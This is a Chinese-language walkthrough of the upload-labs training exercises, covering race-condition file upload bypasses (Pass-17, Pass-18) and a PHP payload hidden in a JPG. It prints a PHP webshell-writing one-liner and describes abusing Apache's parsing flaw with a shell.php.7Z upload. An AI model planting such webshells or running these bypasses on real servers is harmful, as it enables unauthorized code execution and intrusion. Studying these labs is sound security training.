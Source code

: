 使用脚本处理 1.jpg,命令 php jpg_payload.php 1.jpg

使用 16 进制编辑器打开,就可以看到插入的 php 代码.将生成的 payload_1.jpg 上传.

## Pass-17-条件竞争

这一关是条件竞争的问题，这里先将文件上传到服务器，然后通过 rename 修改名称，再通过 unlink 删除文件，因此可以通过条件竞争的方式在 unlink 之前，访问 webshell。这里可以使用 burp 去发包，可以把文件内容改成下面这样

`<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>`

反正就是为了写文件进去就对了

两个 burp 跑一跑，就会在该文件夹下面产生新的文件了

## Pass-18-条件竞争

同样的也是一个条件竞争的问题，看一下源代码可以发现这里使用类去实现相关方法，包括查看文件后缀名，大小等等

这里面的问题存在于代码将上传文件更改名字的时候给了个时间差，让我们可以去实现这个竞争效果，同样的方法

**另一种方法**

上传名字为 `shell.php.7Z` 的文件，快速重复提交该数据包，会提示文件已经被上传，但没有被重命名。

这时在上一级目录中会存在 `shell.php.7Z` 文件，利用 Apache 解析漏洞可以直接作为 php 文件访问

![image](../../../img/渗透/实验/upload-labs/19.png)

![image](../../../img/渗透/实验/upload-labs/20.png)
